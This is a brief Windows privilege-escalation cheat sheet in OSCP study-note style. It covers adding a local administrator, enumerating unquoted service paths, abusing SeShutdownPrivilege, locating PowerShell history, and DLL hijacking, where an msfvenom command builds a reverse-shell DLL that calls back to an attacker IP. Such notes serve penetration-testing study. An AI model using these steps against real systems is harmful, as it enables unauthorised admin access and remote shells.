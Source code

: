 ```powershell
# Add user 'andrea' to the local 'Administrators' group
try {
    Add-LocalGroupMember -Group "Administrators" -Member "andrea"
    Write-Output "User 'andrea' has been added to the Administrators group."
} catch {
    Write-Output "Failed to add user 'andrea' to the Administrators group."
}
```

### Unquoted Service Path

**Powershell**

```powershell
PS C:> Get-CimInstance -ClassName win32_service | Select Name,State,PathName
```

**Command Prompt:**

```powershell
C:\Users\steve> wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```

### DLL Hijacking

Read OSCP Notes !!

- Find Missing DLLs using Process Monitor, Identify a specific service which looks suspicious and add a filter.
- Check whether you have write permissions in the directory associated with the service.

```powershell
# Create a reverse-shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attaker-IP> LPORT=<listening-port> -f dll > filename.dll
```
- Copy it to victom machine and them move it to the service associated directory.(Make sure the dll name is similar to missing name)
- Start listener and restart service, you'll get a shell.


### SeShutdownPrivilege

If we have this Privilege then If any binary we are unable to start or Stop it is set as AUTO then we can reboot the system and it get executed afetr the reboot

```powershell
shutdown /r /t 0
```

### Powershell History

```powershell
PS C:\Users\dave> (Get-PSReadlineOption).HistorySavePath
```

Displayes the Powershell History files of `Dave` User
